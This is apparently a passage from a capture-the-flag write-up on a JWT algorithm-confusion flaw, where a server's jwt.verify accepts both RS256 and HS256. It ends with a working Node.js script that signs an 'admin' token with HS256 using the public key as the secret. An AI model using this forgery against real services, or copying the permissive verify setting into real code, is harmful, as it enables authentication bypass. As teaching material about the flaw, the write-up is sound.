 ### JWT Verify:

Next lets take a look at `verify`. Here we are given a token as the parameter and return the result of the `verify` function from the `jsonwebtoken` package. Again referencing
the documentation, we see that `jsonwebtoken`'s verify function has the following function signature: `jwt.verify(token, secretOrPublicKey, [options, callback])`.
This lines up with what we would expect, as we see this function being passed our JWT token and the server's public key. However, in our code base, we see the `options` parameter can verify a token that 
uses **either** `RS256` or `HS256`.
```js
return (await jwt.verify(token, publicKey, { algorithms: ['RS256', 'HS256'] }));
```

### Creating an Admin JWT:
Based on what we observed above, we now have all the information we need to create a verified `admin` JWT token. The public token is known to us, as it is provided within the `data` section of the JWT. Within the `jwt.verify`
function, the public key is supplied as the `secretOrPublicKey` parameter. When the JWT header specifies that the algorithm is `RS256`, `jwt.verify` interprets the `secretOrPublicKey` parameter as a public key. 
However, if the JWT specifies the algorithm `HS256` in the header, then the `jwt.verify` function interprets the `secretOrPublicKey` as a secret! Thus if a token using `HS256` and signed by our public key was passed to the `verify` function,
it would pass!

This `verify` function is called in AuthMiddleware like so:
```js
	return JWTHelper.verify(req.cookies.session)
		.then(username => {
			req.data = username;
			next();
		})
		.catch((e) => {
			console.log(e);
			res.redirect('/logout');
		});

```

So we can see, once the JWT is verified, the logged in user is determined by the `username` field in the data section of the JWT.

Therefore, we can use the following script to create an `admin` JWT:

```js
const jwt = require("jsonwebtoken");

publicKey = "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAtCKM9IX5ZlUs8hWTEa75\neu6mU09aoHm5jd36mDjaopQ8alaWcHykhVXXsd9Dfp+m86cV4zIbmH4FnZGw2wQT\nPEv824kR4amWL9X2/7TCu6jgM0SQuA+E7KJvMJTf8ycLqdwx3TQFQVAE35zzlvAw\n+MdONz1uQWXh2f6tz6oT+eD/CLd5rJRjxVyraykECcYBDAjOtOjU5NcnTiwU1t2z\nJ6kOkPlG6t7f5zJ8QnHFByIRDKqsRjCo/2cIdLToBaINt85lZy0j5EyWRM+Sfk6b\nNG+CCmR7v1dE2dUIJ5IeXqQ/KSyOxSV0RNbtp9f5pwilaOG+gFeAPAxW0B3PS/cQ\neQIDAQAB\n-----END PUBLIC KEY-----"

data = {'username': 'admin'}
data = Object.assign(data, {pk:publicKey});
key = jwt.sign(data, publicKey, { algorithm:'HS256' })
console.log(key)
```
